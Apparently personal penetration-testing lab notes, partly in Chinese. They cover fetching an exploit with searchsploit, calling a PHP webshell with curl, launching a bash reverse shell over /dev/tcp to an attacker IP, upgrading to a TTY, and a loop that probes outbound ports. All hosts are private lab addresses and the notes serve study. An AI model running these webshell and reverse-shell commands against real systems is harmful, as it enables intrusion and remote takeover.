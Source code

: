 ```bash
searchsploit -m 40847
scp 40847.cpp aleksander@192.168.0.70:~/.
head 40847.cpp

```

# Egress Busting
```bash
# 先去ubuntu種php webshell

curl 192.168.0.24/shell.php?cmd=id

curl -G 192.168.0.24/shell.php --data-urlencode "cmd=id"


curl -G 192.168.0.24/shell.php --data-urlencode "cmd=bash -c 'bash -i > /dev/tcp/192.168.0.18/8888 0<&1 2>&1'"



# bash -i 互動
# > : 1>
# &1: fd1


# shell != console(TTY 只存在本績 、 pty)
# pty 遠端模擬 tty

# shell : bash dash zsh

script -c /bin/bash -q /dev/null

# console
# stdin  0
# stdout 1
# stderr 2

python2 --version 2> /dev/null
# python2把版號是把輸出放在stderr

# SHELL
# I/O fd
# fd 0  stdin
# fd 1  stdout
# fd 2  stderr

pidof bash
ls - l /proc/98793/fd
```
測反彈port
```bash
sudo tcpdump -ni eth0 tcp[13]==2

echo > /dev/tcp/192.168.0.18/100

for port in {200..210};echo > /dev/tcp/192.168.0.18/$port 2> /dev/null;done

```
